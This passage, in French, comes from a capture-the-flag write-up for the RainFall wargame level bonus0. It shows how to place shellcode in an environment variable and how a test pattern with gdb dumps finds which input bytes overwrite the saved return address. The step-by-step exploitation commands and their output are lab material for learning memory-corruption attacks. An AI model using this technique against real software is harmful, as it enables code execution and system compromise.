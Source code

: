 L'élément critique était d'utiliser `env -i` pour créer un environnement propre, rendant l'adresse plus constante:

```bash
env -i SHELLCODE=$SHELLCODE /tmp/get_shellcode_addr
SHELLCODE address: 0xbfffffa8
```

### Défi 4: Détermination du Bon Offset et de la Taille Minimale d'Entrée

Pour déterminer précisément quels octets de notre entrée écrasent l'adresse de retour, nous avons créé une entrée de test avec un motif reconnaissable:

```bash
bonus0@RainFall:~$ python -c "print 'A'*4095 + '\n' + 'BCDEFGHIJKLMNOPQRSTU'" > /tmp/find_offset
bonus0@RainFall:~$ gdb ./bonus0

(gdb) break *main+39 # Point d'arrêt à la fin de main, juste avant le retour
Breakpoint 1 at 0x80485cb

(gdb) run < /tmp/find_offset
Starting program: /home/user/bonus0/bonus0 < /tmp/find_offset
 -
 -
AAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRSTU��� BCDEFGHIJKLMNOPQRSTU���

Breakpoint 1, 0x080485cb in main ()
(gdb) x/64wx $esp-100
0xbffff5a8:     0x00000001      0x0804835d      0xb7fd13e4      0x41410000
0xbffff5b8:     0x41414141      0x41414141      0x41414141      0x41414141 # Les 41 correspondent aux 'A'
0xbffff5c8:     0x43424141      0x47464544      0x4b4a4948      0x4f4e4d4c # 42 à 4f correspondent à 'BCDEFGHIJKLMNOPQRSTU'
0xbffff5d8:     0x53525150      0x0ff45554      0x4220b7fd      0x46454443
0xbffff5e8:     0x4a494847      0x4e4d4c4b      0x5251504f      0xf4555453
0xbffff5f8:     0x00b7fd0f      0xb7fdc858      0x00000000      0xbffff61c
```

Et en vérifiant quelle partie de notre entrée écrase l'EIP sauvegardé:

```
(gdb) info frame
Stack level 0, frame at 0xbffff5f0:
 eip = 0x80485cb in main; saved eip 0x4e4d4c4b
 Saved registers:
  eip at 0xbffff5ec
```

Cela révèle que l'adresse de retour sauvegardée (`0xbffff5ec`) contient `0x4e4d4c4b`, qui correspond aux caractères 'KLMN' dans notre seconde entrée. En examinant notre motif:

```
Seconde entrée: 'BCDEFGHIJKLMNOPQRSTU'
                          ^^^^
                          |
                          +-- Ces caractères (KLMN) écrasent EIP
```
